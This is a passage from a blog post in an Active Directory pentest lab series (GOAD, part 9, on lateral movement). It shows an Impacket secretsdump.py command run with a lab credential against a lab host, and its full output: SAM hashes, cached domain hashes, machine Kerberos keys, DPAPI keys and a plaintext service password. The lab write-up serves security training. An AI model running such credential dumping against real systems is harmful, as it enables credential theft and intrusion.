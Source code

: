 ```yaml
---
layout: post
title:  "GOAD - part 9 - Lateral move"
category : [AD, GOAD]
tags :  AD, Lab, Impacket, Lateral move
---
```


In the previous post ([Goad pwning part8]({% link _posts/2022-09-25-GOADv2-pwning-part8.md %})) we tried some privilege escalation techniques. Today we will talk about lateral move.
Lateral move append when you already pwned a computer and you move from this computer to another.

## Give me your secrets

- Before jumping from computer to computer we must get the secrets of the owned machine.
- Windows got a lot of different secrets stored in different place.

- Let's launch impacket secretsdump.py and see what we got :

```bash
❯ python3 secretsdump.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 
Impacket v0.10.1.dev1+20220912.232454.86a5cbf8 - Copyright 2022 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x9753797dfb54be86486d950690bac8ba
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:0e181c6215bdbfd5b93917da349fc7cd:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[*] Dumping cached domain logon information (domain/username:hash)
NORTH.SEVENKINGDOMS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a
NORTH.SEVENKINGDOMS.LOCAL/robb.stark:$DCC2$10240#robb.stark#f19bfb9b10ba923f2e28b733e5dd1405
NORTH.SEVENKINGDOMS.LOCAL/Administrator:$DCC2$10240#Administrator#afb576755bfd2762f808e2e91eb83eb3
NORTH.SEVENKINGDOMS.LOCAL/jon.snow:$DCC2$10240#jon.snow#82fdcc982f02b389a002732efaca9dc5
NORTH.SEVENKINGDOMS.LOCAL/jeor.mormont:$DCC2$10240#jeor.mormont#36d673a934e86d04ece208fc2ba1d402
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
NORTH\CASTELBLACK$:aes256-cts-hmac-sha1-96:69c32491ad552dc341b9f989daeb91243031a3267708f424461f5134fd6275f5
NORTH\CASTELBLACK$:aes128-cts-hmac-sha1-96:0cc49644dd699c02fb34b6ff81a86f8a
NORTH\CASTELBLACK$:des-cbc-md5:3b4fa8679e7f738a
NORTH\CASTELBLACK$:plain_password_hex:9257eeecf6e89023aefa9cc72aab5e0840541b0a494fb5dd90da4244525d3ff3dd237022108f1d811eaf1588cb96a26b9f9ff01326a300893436819216565d07d9ab02a5feb2223d80db9881e4cafdcc939bcbd8b404cfd8ef4f199c233e6adc22963de84bfb172b4ed8afd798c0589ae5c0e304965784e5785cd1fcbccfe30c9b01828d2f10e6fc758eba3be36ec9f5f84bf4e8606bfedbfcfd4700142884277862817141ba9b41d5e9cb4aad33f1153e9e6d166af5077d0ceec54e97614e48b09575732db2053b5da17844015aac0a83d4f3e82d33f0f626f41634e0d445bb80396edf4398b07a1e1644b301665c5f
NORTH\CASTELBLACK$:aad3b435b51404eeaad3b435b51404ee:22d57aa0196b9e885130414dc88d1a95:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x8ee2a1f0f4c1689343c9d954b1422661262a52a3
dpapi_userkey:0xad6d3e6789682c3429236b14411f92f406792486
[*] NL$KM 
 0000   39 FB 46 D8 43 B6 EC E6  DE D7 CE 1C 50 2D AE B4   9.F.C.......P-..
 0010   4F 71 E1 25 BF 5E FB 14  86 14 D6 A3 0F 93 DE 42   Oq.%.^.........B
 0020   06 48 F4 35 B1 45 83 7E  1A 98 29 D6 45 19 14 D2   .H.5.E.~..).E...
 0030   C4 66 57 03 2B C5 04 01  AE 33 49 CD D2 E0 92 CE   .fW.+....3I.....
NL$KM:39fb46d843b6ece6ded7ce1c502daeb44f71e125bf5efb148614d6a30f93de420648f435b145837e1a9829d6451914d2c46657032bc50401ae3349cdd2e092ce
[*] _SC_MSSQL$SQLEXPRESS 
north.sevenkingdoms.local\sql_svc:YouWillNotKerboroast1ngMeeeeee
[*] Cleaning up... 
```